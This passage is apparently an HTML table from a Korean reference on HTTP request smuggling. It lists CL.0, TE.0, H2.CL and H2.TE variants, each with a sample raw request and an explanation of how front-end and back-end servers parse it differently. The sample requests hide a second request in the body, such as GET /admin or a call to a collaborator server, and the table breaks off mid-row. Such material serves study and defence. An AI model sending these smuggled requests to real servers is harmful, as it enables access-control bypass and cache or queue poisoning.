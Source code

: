       <td><pre><code>POST /vulnerable-endpoint HTTP/1.1<br>
Host: vulnerable-website.com<br>
Connection: keep-alive<br>
Content-Type: application/x-www-form-urlencoded<br>
Content-Length: 34<br>
<br>
GET /hopefully404 HTTP/1.1<br>
Foo: x</code></pre></td>
      <td>Front-end 서버 <br>
        <code> Content-Length </code> 사용 <br> 
<br>
Back-end 서버 <br> 
        <code> Content-Length </code> 헤더를 무시하여 <code> Content-Length </code>  헤더의 값이 0 인 것으로 가정하여 요청 본문을 새로운 요청의 시작으로 판단</td>
      <td>[B]</td>
    </tr>
    <tr>
      <td>TE.0</td>
      <td><pre><code>OPTIONS / HTTP/1.1<br>
Host: HOST<br>
…<br>
Transfer-Encoding: chunked<br>
Connection: keep-alive<br>
<br>
50<br>
GET http://our-collaborator-server/ HTTP/1.1<br>
x: X<br>
0<br>
(EMPTY_LINE)<br>
(EMPTY_LINE)</code></pre></td>
      <td>Front-end <br>
        Front‑end가 <code> Transfer‑Encoding</code> 형태의 요청을 <code> Content‑Length </code> 기반으로 변환하며 OPTIONS 메서드로 <code> Content‑Length </code> 를 0으로 처리해 헤더를 누락한다.</td>
      <td>[7]</td>
    </tr>
    <tr>
      <td>H2.CL</td>
      <td><pre><code>:method POST<br>
:path /example<br>
:authority example.com<br>
content-type application/x-www-form-urlencoded<br>
content-length 0<br>
<br>
GET /admin HTTP/1.1<br>
Host: example.com<br>
Content-Length: 10<br>
<br>
x=1</code></pre></td>
      <td>Front-end 서버 <br> 
HTTP 2를 지원하지 않는 Backend 서버를 위해 Front-end 서버가 요청을 HTTP 1.1 형태로 변환하는 과정을 이용. HTTP 2 에서는 <code> Content-Length </code> 헤더의 값을 사용하지 않는데, Front-end 서버가 변환 과정에서 해당 헤더 값을 쓸 경우 요청 경계의 차이가 발생</td>
      <td>[6], [A]</td>
    </tr>
    <tr>
      <td>H2.TE</td>
      <td><pre><code>:method POST<br>
:path /example<br>
:authority example.com<br>
content-type application/x-www-form-urlencoded<br>
transfer-encoding chunked<br>
<br>
0<br>
<br>
GET /admin HTTP/1.1<br>